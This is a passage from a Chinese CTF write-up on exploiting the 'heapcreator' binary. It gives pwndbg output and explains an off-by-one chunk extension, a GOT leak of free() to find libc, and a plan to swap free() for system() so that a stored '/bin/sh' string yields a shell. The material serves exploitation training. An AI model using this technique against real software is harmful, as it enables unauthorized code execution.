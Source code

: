 ```powershell
   0x7ffff7b04365 <read+85>               or     rax, 0xffffffffffffffff
   0x7ffff7b04369 <read+89>               ret    
 
   0x7ffff7b0436a                         nop    word ptr [rax + rax]
   0x7ffff7b04370 <write>                 cmp    dword ptr [rip + 0x2d23c9], 0 <0x7ffff7dd6740>
   0x7ffff7b04377 <write+7>               jne    write+25 <write+25>
    ↓
   0x7ffff7b04389 <write+25>              sub    rsp, 8
────────────────────────────────[ STACK ]─────────────────────────────────
00:0000│ rsp  0x7fffffffddb8 —▸ 0x400d96 (main+115) ◂— lea    rax, [rbp - 0x10]
01:0008│ rsi  0x7fffffffddc0 —▸ 0x7fffffff0a34 ◂— 0x0
02:0010│      0x7fffffffddc8 ◂— 0xed4b55b848086000
03:0018│ rbp  0x7fffffffddd0 —▸ 0x400e00 (__libc_csu_init) ◂— push   r15
04:0020│      0x7fffffffddd8 —▸ 0x7ffff7a2d840 (__libc_start_main+240) ◂— mov    edi, eax
05:0028│      0x7fffffffdde0 ◂— 0x1
06:0030│      0x7fffffffdde8 —▸ 0x7fffffffdeb8 —▸ 0x7fffffffe23a ◂— '/home/ubuntu/Desktop/heapcreator_data/heapcreator'
07:0038│      0x7fffffffddf0 ◂— 0x1f7ffcca0
──────────────────────────────[ BACKTRACE ]───────────────────────────────
 ► f 0     7ffff7b04320 __read_nocancel+7
   f 1           400d96 main+115
   f 2     7ffff7a2d840 __libc_start_main+240
──────────────────────────────────────────────────────────────────────────
pwndbg> 
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1600334487745-c156be18-8f5c-49c9-8bda-4750ba7d2dc4.png)

可以看到在是防止后fastbin中已经出现了两个chunk地址了，首先释放的应该是heap_content，接着释放的是heap结构体，所以会在fastbin中存在两个chunk地址。

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1600334714617-7af20ba2-2779-4f62-823f-c44ccfa9d479.png)

由于我们对heap2结构体范围进行了扩展，因此heap结构体chunk与heap内容chunk合并了，当我们再次申请的时候就可以对extend的chunk进行操作了。

## 泄露free()函数真实地址
通过前面的努力我们已经完成了如下步骤：

+ 将"/bin/sh"字符串部署在heap1内容chunk的data处
+ 通过off-by-one漏洞完成修改heap2结构体chunk的size值
+ 成功extend heap2结构体chunk

前面已经提到过，我们的计划是将free()函数替换成system()函数，这样一来我们部署好的“/bin/sh”字符串就可以作为system()函数的参数了。但是这个程序本身并没有system()函数，所以就需要泄露出某一个函数的got表地址，进而通过pwntools的工具来找出libc基地址，加上偏移之后找到system()函数。那么首先第一步就是泄露，**<font style="color:#F5222D;">因为这个程序本身就存在free()函数，那么就直接泄露free_got了。</font>**

上一步我们已经将extend的0x41大小的chunk准备好了，这一步直接在操作流程中申请0x30个字节的堆块就可以直接调用了。这里有一个点需要注意，**<font style="color:#F5222D;">在创建堆块的时候实际上申请的是两个chunk</font>**：

+ <font style="color:#9cdcfe;">heaparray</font><font style="color:#d4d4d4;">[</font><font style="color:#9cdcfe;">i</font><font style="color:#d4d4d4;">] = (</font><font style="color:#569cd6;">struct</font><font style="color:#d4d4d4;"> </font><font style="color:#4ec9b0;">heap</font><font style="color:#d4d4d4;"> *)</font><font style="color:#dcdcaa;">malloc</font><font style="color:#d4d4d4;">(</font><font style="color:#569cd6;">sizeof</font><font style="color:#d4d4d4;">(</font><font style="color:#569cd6;">struct</font><font style="color:#d4d4d4;"> </font><font style="color:#4ec9b0;">heap</font><font style="color:#d4d4d4;">));</font>
+ <font style="color:#9cdcfe;">heaparray</font><font style="color:#d4d4d4;">[</font><font style="color:#9cdcfe;">i</font><font style="color:#d4d4d4;">]-></font><font style="color:#9cdcfe;">content</font><font style="color:#d4d4d4;"> = (</font><font style="color:#569cd6;">char</font><font style="color:#d4d4d4;"> *)</font><font style="color:#dcdcaa;">malloc</font><font style="color:#d4d4d4;">(</font><font style="color:#9cdcfe;">size</font><font style="color:#d4d4d4;">);</font>
